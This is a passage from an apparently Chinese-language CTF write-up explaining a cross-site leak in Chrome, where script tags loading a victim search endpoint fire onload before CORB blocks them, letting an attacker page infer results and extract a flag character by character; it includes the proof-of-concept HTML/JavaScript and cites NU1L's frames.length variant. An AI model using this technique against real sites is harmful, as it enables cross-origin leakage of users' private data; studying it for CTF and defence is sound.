 当被设置为same-origin时，只有在同源请求的时候，才会发送referer信息。

## 通过返回不同来获取页面内容

在我们了解完前面的所有安全配置头以后，我们很容易发现，从理论上没办法绕过并获取到窗口的dom，但事实是，并不是所有的浏览器对于http标准解释方式一致。

当我们在firefox中试图加载页面时，firefox会毫不留情的拦截返回并且不会有任何处理区别。但是在chrome中就有区别了。

当我们构造如下页面时
```

<html>
<head>
</head>

<script>

let test1 = document.createElement('script');
test1.src = "http://127.0.0.1:3000/search?keyword=f";
document.head.append(test1);

let test2 = document.createElement('script');
test2.src = "http://127.0.0.1:3000/search?keyword=fa";
document.head.append(test2);


test1.onload = function(){
	alert('1');
}
test2.onload = function(){
	alert('2');
}
</script>

</html>
```

当我们在chrome下访问时

![image.png-60.8kB][2]

![image.png-3.8kB][3]

和在firefox中不同，chrome会首先判断返回的状态码，并且触发onload事件，然后才会被CORB所拦截。这样一来，由于请求返回的差异，我们就可以通过onload事见来判断请求的返回状态码，从而逐位注得flag值。

在NU1L的Wp中还用了win1.frames.length去取open窗口的内的frames数量，这个利用方式涉及到前面提到的第二点，主要是利用了搜索不到内容时，页面会多出来的iframe标签来做判断，比较神奇的是这个属性居然是不会被CORB拦截的。

具体可以看NU1L的wp
[https://mp.weixin.qq.com/s/oc6KhO5yU5w6l8oKT-OaEw](https://mp.weixin.qq.com/s/oc6KhO5yU5w6l8oKT-OaEw)


# umsg


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2oqak8fz3atmkap59oy39utf/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ksgscemmexy9xhjzb3vgaudm/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9pj1cv9nolm1ojydo1ejwpxr/image.png